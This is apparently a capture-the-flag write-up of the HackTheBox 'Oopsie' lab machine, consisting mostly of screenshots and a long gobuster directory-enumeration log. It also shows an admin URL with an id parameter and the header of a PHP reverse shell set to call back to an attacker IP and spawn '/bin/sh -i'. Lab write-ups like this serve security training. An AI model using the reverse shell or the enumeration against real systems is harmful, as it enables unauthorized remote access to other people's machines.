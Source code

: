 # Oopsie
_______

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/f3b6eb49-52df-4aee-8fba-42110bd94ccf)


#### Directory Enumeration
```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ gobuster dir  -u http://10.129.2.130/cdn-cgi -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.2.130/cdn-cgi
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
Progress: 123 / 4615 (2.67%)[ERROR] Get "http://10.129.2.130/cdn-cgi/~http": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 124 / 4615 (2.69%)[ERROR] Get "http://10.129.2.130/cdn-cgi/~httpd": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 125 / 4615 (2.71%)[ERROR] Get "http://10.129.2.130/cdn-cgi/~mail": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/~root": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/~operator": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/~nobody": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/~lp": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/~logs": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/~log": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 134 / 4615 (2.90%)[ERROR] Get "http://10.129.2.130/cdn-cgi/~sys": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 813 / 4615 (17.62%)[ERROR] Get "http://10.129.2.130/cdn-cgi/certified": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/certsrv": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/certs": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/cfc": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/cf": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/certserver": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/cfcache": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/cfdocs": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/cfg": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 822 / 4615 (17.81%)[ERROR] Get "http://10.129.2.130/cdn-cgi/cfide": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 1556 / 4615 (33.72%)[ERROR] Get "http://10.129.2.130/cdn-cgi/externalization": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/externalid": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/extra": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 2153 / 4615 (46.65%)[ERROR] Get "http://10.129.2.130/cdn-cgi/javascript": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/java-plugin": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/javascripts": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/javax": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/java-sys": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/jboss": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/jbossas": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/jdbc": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/login                (Status: 301) [Size: 320] [--> http://10.129.2.130/cdn-cgi/login/]
Progress: 2828 / 4615 (61.28%)[ERROR] Get "http://10.129.2.130/cdn-cgi/owners": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/ows": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/ows-bin": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/p": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/P": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/p2p": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/p7pm": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/pa": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/pack": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/package": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 3280 / 4615 (71.07%)[ERROR] Get "http://10.129.2.130/cdn-cgi/rarticles": dial tcp 10.129.2.130:80: i/o timeout (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/rate": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 4489 / 4615 (97.27%)[ERROR] Get "http://10.129.2.130/cdn-cgi/world": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/worldwide": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 4492 / 4615 (97.33%)[ERROR] Get "http://10.129.2.130/cdn-cgi/wp-atom": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/wpau-backup": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/wow": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/wp-admin": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/wp-app": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://10.129.2.130/cdn-cgi/wp": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 4498 / 4615 (97.46%)[ERROR] Get "http://10.129.2.130/cdn-cgi/wp-blog-header": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/ffc0bd9e-f4ec-48d5-a038-9672f77242e1)




![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/1438eeb0-552b-4305-bd35-0bbde379eef4)


![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/8548774d-fbf0-4cab-b08f-27c33d3872d1)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/88c61aaa-4284-4f66-87db-60edc301a9cf)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/770a3558-9ece-4804-9d0b-0c8698571fdf)


` 10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=1`

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/1dbbccd0-a72f-4ac0-8424-f9f856b2b5cb)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/11ff3aef-62d9-4cf3-9574-be4b19581a06)

php_reverse_shell

```set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.153';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

```

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/4a3422ca-b1a5-48a1-a30e-c9c0c999a093)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/f71b9185-b6c0-4a98-b03b-28ff88dac460)

```
$ su robert
su: must be run from a terminal
```

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/0e4b1a57-cd6b-4198-bacb-030fbf1a1b29)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/fa2b3ed2-2952-40e3-b2cd-7e4006e1b531)


![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/fea96485-810b-412a-b0a8-f6fa741eba77)















